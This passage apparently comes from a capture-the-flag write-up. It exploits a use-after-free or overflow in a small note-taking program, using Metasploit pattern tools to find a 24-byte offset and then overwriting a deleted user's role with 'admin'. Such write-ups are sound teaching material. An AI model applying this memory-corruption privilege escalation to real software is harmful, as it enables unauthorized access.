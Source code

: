 Now when I view my user (`2`), it’s overwritten:

```

Your choice: 2

Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Role: AAAAAAAAAAAAAAA

```

My guess here is that either these are stored on the stack in fixed buffers that are overflowable, or they are on the heap and the username pointer is not-nulled when the buffer is free. So if my note is too long and not checked, it overwrites into the username and role.

This doesn’t happen if the user isn’t deleted, so there must be some check for an active user before allowing the write.

#### Exploit

To understand where exactly the overflow is happening, I’ll use the `pattern_create` utility from Metasploit:

```

oxdf@hacky$ pattern_create -l 30
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9

```

I’ll start the program, create a user, delete the user, and then create a note with that pattern as the body. Then on viewing the user data:

```

Username: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9
Role: Aa8Aa9

```

The username now matches the note exactly! And the roles starts 24 bytes in:

```

oxdf@hacky$ pattern_offset -q Aa0A
[*] Exact match at offset 0
oxdf@hacky$ pattern_offset -q Aa8A
[*] Exact match at offset 24

```

To get admin, I’ll again delete the user (`3`), then add a note with 24 bytes of anything, and then “admin”:

```

Your choice: 4

Write your note:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin

```
